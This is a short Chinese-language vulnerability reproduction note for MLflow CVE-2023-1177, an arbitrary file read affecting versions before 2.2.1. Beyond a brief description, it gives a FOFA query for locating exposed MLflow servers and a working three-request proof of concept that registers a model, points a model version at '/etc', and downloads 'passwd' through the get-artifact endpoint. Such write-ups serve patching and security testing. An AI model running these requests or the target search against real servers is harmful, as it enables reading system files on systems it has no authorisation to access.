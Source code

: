 # MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

```
MLflow < 2.2.1
```

## FOFA

```
app.name="MLflow"
```

## 漏洞复现

登陆页面

![image-20230417093814404](images/image-20230417093814404.png)

验证POC

```
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![image-20230417093836998](images/image-20230417093836998.png)

```
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![image-20230417093851779](images/image-20230417093851779.png)

```
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![image-20230417093907298](images/image-20230417093907298.png)